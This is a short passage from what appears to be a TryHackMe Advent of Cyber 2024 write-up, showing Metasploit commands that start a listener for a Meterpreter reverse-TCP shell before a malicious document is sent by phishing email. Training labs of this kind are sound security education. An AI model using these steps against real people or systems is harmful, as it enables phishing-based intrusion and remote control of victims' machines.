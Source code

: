    Now we can send this document via email, but first we should setup a listener on the correct port. Notice that the payload needs to be set.

   ```cmd
   use multi/handler

   set LHOST 10.11.101.240
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp

   run
   ```

   ![Listener](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/adventofcyber2024/Advent_of_Cyber_2024_Day_10_Listener.png)

   Now we can login to the mail server to send our phishing mail.
